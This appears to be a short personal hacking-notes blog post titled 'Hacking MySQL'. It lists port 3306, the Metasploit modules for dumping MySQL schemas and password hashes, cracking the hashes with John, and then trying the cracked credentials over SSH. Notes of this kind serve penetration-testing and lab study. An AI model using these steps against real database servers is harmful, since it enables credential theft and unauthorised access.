 ```yaml
---
title: Hacking MySQL
date: 2022-06-09 19:36:00 +/-0000
categories: [hacking]
tags: [mysql]     # TAG names should always be lowercase
---
```


# Hacking MySQL

### Port Number
3306

### To find tables

```shell
    auxiliary/scanner/mysql/mysql_schemadump
```

### To dump hashes

```shell
    auxiliary/scanner/mysql/mysql_hashdump
```

Copy the username and password to text file then run

```shell
    John *filename*
```

Then try logging in SSH using username and password

